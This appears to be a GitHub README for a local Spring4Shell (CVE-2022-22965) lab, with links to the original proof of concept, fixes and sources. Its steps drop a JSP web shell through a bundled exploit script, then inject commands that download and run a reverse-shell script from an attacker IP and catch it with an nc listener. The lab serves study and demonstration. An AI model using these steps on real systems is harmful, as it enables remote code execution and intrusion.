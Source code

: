 # Spring4Shell Demo
CVE-2022-22965
National Vulnerability Database link : https://nvd.nist.gov/vuln/detail/cve-2022-22965

The docker image and exploit program are from reznok's POC repository.

Link: https://github.com/reznok/Spring4Shell-POC


I found this vulnerability searching through YouTube.

Link: https://youtu.be/b5jTYY-MpGo

## Instructions

1. Build and run the container: `docker build . -t spring4shell && docker run -p 8080:8080 spring4shell`
2. Go to: http://localhost:8080/helloworld/greeting
3. Run the exploit.py script: `python exploit.py --url "http://localhost:8080/helloworld/greeting"`
4. Modify the `cmd` GET parameter for your commands. (`http://localhost:8080/shell.jsp` by default)

### Examples commands
-id
-whoami
-ls
-pwd

## Reverse Shell Video 
Link: https://youtu.be/aWxG66BXlqU
1. Change IP in reveshell file to your IP
2. Start python server: `sudo python3 -m http.server 80`
3. Launch Burp and send request to Repeater
4. Replace command with `curl 192.168.186.85/revshell.sh -o revshell.sh` in the request(change IP to your attack IP)
5. Select command and encode with URL encoding
6. Repeat with `bash revshell.sh`
7. Create listener: `nc -lvo 4444`

## Fixes
https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement#disallowed-fields
https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15


## Sources
https://docs.spring.io/spring-framework/docs/3.0.0.M4/reference/html/ch01s02.html
https://www.javatpoint.com/spring-mvc-tutorial
https://www.tenable.com/blog/spring4shell-faq-spring-framework-remote-code-execution-vulnerability






